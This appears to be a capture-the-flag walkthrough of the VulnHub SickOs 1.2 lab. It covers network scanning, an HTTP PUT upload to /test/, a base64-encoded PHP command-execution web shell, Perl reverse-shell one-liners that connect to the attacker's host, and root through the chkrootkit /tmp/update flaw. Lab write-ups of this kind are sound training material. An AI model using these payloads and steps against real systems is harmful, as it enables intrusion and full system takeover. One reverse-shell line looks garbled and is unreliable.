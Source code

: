 # Port Scan

Perform a Ping Sweep
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-01 23:57 AEDT
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.132
Host is up (-0.10s latency).
MAC Address: 00:50:56:FF:87:FA (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (5 hosts up) scanned in 2.35 seconds
```
192.168.114.131 is my KALI machine
192.168.114.132 is target machine

# Enumeration
### Port Enumeration
```
nmap -sV 192.168.114.132
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```
### HTTP Enumeration
```
nikto -h 192.168.114.132
```
```
+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ OSVDB-3268: /test/: Directory indexing found.
+ 26188 requests: 0 error(s) and 4 item(s) reported on remote host
```
Directory indexing found , but it is empty, so useless information.
```
dirb http://192.168.114.132
```
```
---- Scanning URL: http://192.168.114.132/ ----
+ http://192.168.114.132/index.php (CODE:200|SIZE:163)                         
==> DIRECTORY: http://192.168.114.132/test/ 
```
Also only found one directory.

### Searching for exploits
```
searchsploit -e lighttpd
```
Does not return with any major exploits or vulnerabilities.

Low Hanging Fruit : http://192.168.114.132/test/ 

Using cURL to see If we can upload any files onto /test/
```
echo "test" > test.txt
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt'
```
```
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```
We are returned with Expectation Failed, which is unique. A bit of googling
https://stackoverflow.com/questions/9120760/curl-simple-file-upload-417-expectation-failed

Says we need to include --http1.0
### Vulnerability - Misconfigured Upload

```
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt' --http1.0
```
Successfully Uploaded a file. 


# Exploit
Now we have full reigns on upload , you can upload a reverse php shell, backdoor etc. In this case we'll upload a basic php system call.

##### Step 1. Create a backdoor
```
echo 'system($_GET['cmd']);' | base64      // Not neccessary to encode it to base64
echo "<?php eval(base64_decode('c3lzdGVtKCRfR0VUW2NtZF0pOwo=')) ?>" > evil.php
```
##### Step 2. Upload and Accessing the exploit: in URL
```
http://192.168.114.132/test/evil.php?cmd="ifconfig"
```
Using a basic perl reverse shell (Generated from msfvenom)  // port 1234 , will not return anything. Port 443 works!
```
http://192.168.114.132/test/evil.php?cmd=192.168.114.132/test/test.php?cmd=/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
OR just use one of http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
nc -lvp 443
listening on [any] 443 ...
192.168.114.132: inverse host lookup failed: Unknown host
connect to [192.168.114.131] from (UNKNOWN) [192.168.114.132] 59858
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
OR use multi/handler to pick up the connection
```
msfconsole
use exploit/multi/handler
set payload linux/x86/shell/reverse_tcp
...
```
# Local Privilege Escalation

Running a Linux Priv Checker ( Automated Script )
Manually checking the crontabs, we see a few programs that are scheduled to run
```
$ ls /etc/cron.daily/
ls /etc/cron.daily/
apt	  bsdmainutils	dpkg	  logrotate  mlocate  popularity-contest
aptitude  chkrootkit	lighttpd  man-db     passwd   standard
```
Check each of the versions of the following to see if they have a vulnerability
```
 chkrootkit 0.49-4ubuntu1.1  detector
```
Found an exploit. 

# Vulnerability Exploited - Out of Date CHKROOTKIT
https://www.exploit-db.com/exploits/33899/

"Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file."

##### Step 1. Create a bash, named "update"
```
#!/bin/sh

echo "`/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.114.131:443");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'`"

#end
```
Using the same shell, we can get a root shell.

#### Step 2. Upload to target machine, and place in /tmp/

#### Wait.
Using msfconsole/exploit/multi/handler 
```
Command shell session 5 opened (192.168.114.131:443 -> 192.168.114.132:37026) at 2018-03-02 18:16:55 +1100
```
```
id  
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```





